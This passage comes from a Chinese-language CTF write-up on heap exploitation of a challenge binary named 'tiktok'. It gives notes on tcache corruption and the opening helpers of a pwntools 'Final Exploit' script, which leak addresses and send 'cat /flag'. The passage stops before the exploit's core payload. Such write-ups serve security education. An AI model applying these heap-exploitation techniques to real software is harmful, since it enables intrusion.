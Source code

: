 `fake_songs`的内容将会被整体写入`songs`列表中。

劫持了`songs`后续利用就比较常规了，只需要注意两个原则：
1. 🚫禁止`free`掉一个`fd`为`0`的`Chunk`，这会导致`stdin`被关闭。
<li>
`Tcache bin`的`0x3C0`链表已被损坏，不要使用这个链表。</li>
### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

tiktok=ELF('./tiktok', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./tiktok")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./tiktok")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
```